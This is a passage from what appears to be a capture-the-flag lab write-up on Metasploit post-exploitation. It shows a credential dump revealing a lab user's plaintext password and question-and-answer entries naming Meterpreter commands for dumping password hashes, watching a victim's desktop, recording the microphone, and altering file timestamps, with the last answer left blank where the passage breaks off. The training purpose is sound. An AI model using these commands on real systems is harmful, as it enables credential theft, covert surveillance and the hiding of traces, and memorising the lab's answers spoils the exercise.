 ```
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```
**Answer**: `Password01!`
### What command allows us to dump all of the password hashes stored on the system?
```
meterpreter > help
Priv: Password database Commands
================================

    Command       Description
    -------       -----------
    hashdump      Dumps the contents of the SAM database
```
## Post-Exploitation
**Answer**: `hashdump`
### what command allows us to watch the remote user's desktop in real time?
```
meterpreter > help
Stdapi: User interface Commands
===============================

    Command        Description
    -------        -----------
    screenshare    Watch the remote user desktop in real time
```
**Answer**: `screenshare`
### How about if we wanted to record from a microphone attached to the system?
```
meterpreter > help
Stdapi: Webcam Commands
=======================

    Command        Description
    -------        -----------
    record_mic     Record audio from the default microphone for X seconds
```
**Answer**: `record_mic`
### What command allows us to modify timestamps of files on the system?
```
```